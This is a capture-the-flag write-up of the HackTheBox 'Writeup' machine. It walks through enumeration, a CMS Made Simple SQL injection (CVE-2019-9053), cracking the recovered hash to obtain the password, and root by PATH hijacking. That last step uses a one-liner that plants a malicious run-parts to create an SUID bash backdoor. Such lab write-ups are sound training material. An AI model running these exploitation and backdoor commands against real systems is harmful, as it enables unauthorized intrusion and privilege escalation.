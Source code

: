 ```yaml
---
title: Writeup
tags:
  - HackTheBox
  - Easy
  - Linux
  - CMS
  - CVE
  - Brute-Forcing
  - Path_Hijacking
date: 2025-05-18T00:00:06Z
---
```

![](Pasted%20image%2020250518201722.png)

## Reconnaissance

First I performed a Nmap scan:

```shell
nmap -sC -T4 -p- 10.10.10.138 > sC.txt

[redacted]
PORT   STATE SERVICE
```

So I checked its website:

![](Pasted%20image%2020250518202738.png)

While performing directory enumeration, I get blocked after 100 petitions, so it may have some kind of WAF. So I manually enumerated the `robots.txt`:

![](Pasted%20image%2020250518203046.png)

`/writeup` endpoint is detected. So I'll check its content:

![](Pasted%20image%2020250518203123.png)

Here we can discover a new endpoint which allows us to alternate between different writeups `http://10.10.10.138/writeup/index.php?page=ypuffy`. 

We can also discover a CMS Being used named CMS Made Simple:

![](Pasted%20image%2020250518203712.png)

## Weaponizaion

I searched for "cms made simple exploit" and found CMS Made Simple < 2.2.10 - SQL Injection assigned as [CVE-2019-9053](https://www.exploit-db.com/exploits/46635)

## Exploitation

I'll execute the script:

```shell
python2 cve.py http://10.10.10.138/writeup
```

![](Pasted%20image%2020250518205518.png)

> Hashed credentials found: `jkr:62def4866937f08cc13bab43bb14e6f7`, salt: `5a599ef579066807`

Now I'll crack the password with hashcat (first I saved it to a file like: `password:salt`):

```shell
hashcat -m 20 -a 0 hash.txt /usr/share/wordlists/rockyou.txt

[redacted]
62def4866937f08cc13bab43bb14e6f7:5a599ef579066807:raykayjay9
```

> Now I've got credentials: `jkr:raykayjay9`

### User flag

![](Pasted%20image%2020250518210202.png)

## Privilege Escalation

Running linpeas I got the following:

![](Pasted%20image%2020250518210725.png)

Then, checking the groups I form part of, I noted that I am part of `staff` group:

```shell
id
uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
```

> *Basically “staff” is a group, exist in Debian library. It allows users to add local modifications to the system (/usr/local) without needing root privileges (note that executables in /usr/local/bin are in the PATH variable of any user, and they may “override” the executables in /bin and /usr/bin with the same name).* -> [binaryregion](https://binaryregion.wordpress.com/2021/09/22/privilege-escalation-linux-staff-group/)

This machine is vulnerable to path hijacking attack. I'll need to run [PSpy](https://github.com/DominicBreuker/pspy/releases/tag/v1.2.1), so I'll upload it to the machine.

![](Pasted%20image%2020250518211515.png)

>*As we SSH into the machine, root uses sh to run `/usr/bin/env` , and we see that `motd` was called and the file `10-uname` was accessed. We also see that the PATH specified before running run-parts includes two directories that we can write to, at the very start.*

Now I will create a malicious `run-parts` file in `/usr/local/bin`, which I know that will be executed when I connect via SSH. I'll use the following one-liner to create create an executable payload that will turn the bash binary into an SUID binary, effectively giving me a root shell:

```shell
echo -e '#!/bin/bash\n\ncp /bin/bash /bin/gitblanc\nchmod u+s /bin/gitblanc' > /usr/local/bin/run-parts; chmod +x /usr/local/bin/run-parts
# Then verify
cat /usr/local/bin/run-parts
#!/bin/bash

cp /bin/bash /bin/gitblanc
chmod u+s /bin/gitblanc
```

Now I can `ssh` in, and my new backdoored shell is waiting:

![](Pasted%20image%2020250518212532.png)

### Root flag

![](Pasted%20image%2020250518212649.png)

==Machine pwned!==